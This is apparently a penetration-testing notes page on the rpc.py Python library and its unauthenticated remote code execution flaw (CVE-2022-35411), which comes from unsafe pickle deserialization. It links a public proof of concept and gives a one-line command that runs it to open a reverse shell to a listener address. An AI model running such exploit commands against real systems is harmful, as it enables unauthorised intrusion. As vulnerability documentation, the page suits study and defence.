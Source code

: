 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# rpc.py

**rpc.py** is a lightweight Python library designed to facilitate remote procedure calls (RPC) over a network. It enables developers to expose Python functions or methods on a server and invoke them remotely from a client, simplifying distributed application communication. The library serializes data using Python's `pickle` module, which allows complex objects to be sent back and forth.

The rpc.py versions from `0.4.2` to `0.6.0` are susceptible to an **unauthenticated remote code execution (RCE)** vulnerability ([CVE-2022-35411](https://nvd.nist.gov/vuln/detail/CVE-2022-35411)). This arises from unsafe deserialization of untrusted data using Python’s `pickle` module. Because rpc.py accepts serialized objects from clients without proper validation or authentication, an attacker can craft a malicious payload that, when deserialized by the server, executes arbitrary system commands.

A python-based [PoC](https://github.com/CSpanias/rpc-rce.py) is available for getting a reverse shell right away:

```bash
python3 rpc-rce.py --lhost 10.10.14.1 --lport 9001
```
